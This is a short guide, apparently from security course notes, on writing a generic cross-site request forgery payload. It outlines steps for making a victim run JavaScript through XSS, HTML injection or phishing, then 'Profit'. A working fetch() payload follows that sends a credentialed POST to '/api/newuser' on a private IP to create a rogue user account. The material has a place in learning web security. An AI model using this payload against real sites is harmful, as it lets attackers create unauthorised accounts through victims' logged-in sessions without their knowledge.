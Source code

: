 # Generic CSRF payload example. 

Saving the payload examples you've created during the course is also useful. This serves as a general guide to writing a CSRF payload.

1. If possible, conduct the action you want the victim to execute within your own browser using Burp Suite so you can see how the payload (params + values) are formatted. 
2. Create a javascript payload.
3. Find a way to have the victim execute the JavaScript payload whether through an XSS, HTML Injection, or Phishing. 
4. Profit.

Example of a JavaScript payload to create a new user. This will create a new user named "MyUser" by targeting the "/api/newuser" API on "https://192.168.1.1". When executed (if you want to test on yourself) the console will output the messages "Creating new user..." when the API is being called then "Should be done now..." when the command has been executed.
```
  var user = "username=MyUser";
  var host = "https://192.168.1.1";
  var api_url = "/api/newuser";
	
function create_user() {
  console.log("Creating a new user...");
  fetch(host+api_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body : user }
  ).then(
    console.log("Should be done...")
  );
}

create_user();
```

